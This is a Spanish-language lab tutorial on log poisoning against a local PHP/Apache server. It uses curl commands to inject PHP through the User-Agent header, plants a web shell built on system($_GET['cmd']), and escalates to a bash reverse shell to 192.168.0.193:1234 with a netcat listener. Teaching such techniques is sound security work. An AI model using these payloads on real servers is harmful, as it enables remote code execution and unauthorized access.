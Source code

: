 - ``curl -s -X GET "http://localhost/probando" -H "User-Agent: PROBANDO"`` **-H** para controlar una cabecera especificada y incrustarle información, en nuestro caso la cabecera "**User-Agent**" donde le pasamos la cadena "*Probando*"

Esto como tal en la Shell no dará nada, pero si miramos los Logs desde la web, veremos que la petición fue registrada.

![[LogP 3.png]]

Como nosotros nos encontramos en una Web que contempla **PHP**, si nosotros lográramos **inyectar código php** podríamos derivar a algo mas grave.

Si nosotros en el ``curl``, tramitamos lo mismo que recién pero esta vez con **un código php de interés** como por ejemplo haciendo uso de la función ``phpinfo();`` para listar la **información de todo el PHP** y ver si está activa la función ``system();``que es la que nos sirve para ejecutar comandos a nivel de sistema.

- ``curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php phpinfo(); ?>"``

Con esto **podremos ver la tabla phpinfo**, pero no podremos en el formato ``CTRL+U``, debemos verlo de manera común.

Ahora debemos filtrar con ``CTRL+F`` por "disable_functions". Siempre es **interesante ver esta tabla una vez que podamos inyectar código malicioso php en una web**, ya que nos dará mucha información que nos puede ser de utilidad.

![[LogP 5.png]]

----

Como nuestro servidor no tiene deshabilitada la función ``system();`` podemos hacer lo siguiente:

- ``curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"``

![[LogP 4.png]]

De esta forma también podríamos colocar en el User-Agent lo siguiente ``<?php system(\$_GET['cmd']); ?>`` **Escapando el símbolo de dólar** ``\$``, ya que en bash puede generar conflicto.

- ``curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"``

Ahora si en el URL de la web agregamos un ``&cmd=`` seguido del comando que queramos ejecutar, podremos ejecutarlo de forma rápida y sencilla.

![[LogP 6.png]]

Gracias a esto, podríamos derivar todo a una **Reverse shell** gracias a la función ``system($_GET['cmd']);``, colocando en la URL en el campo ``&cmd=`` la siguiente cadena perteneciente a una **Reverse Shell con el uso de bash**.

- ``http://localhost/index.php/?filename=/var/log/apache2/access.log&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.193/1234 0>%261"`` recordemos que se URLENCODEAN los ``&``

Nos colocamos en escucha con Netcat y luego enviamos la solicitud anterior.

- ``nc -nlvp 1234``

Y con esto tendríamos acceso al servidor, ahora solo **faltaría hacerle un tratamiento** para que sea mas intuitivo todo.
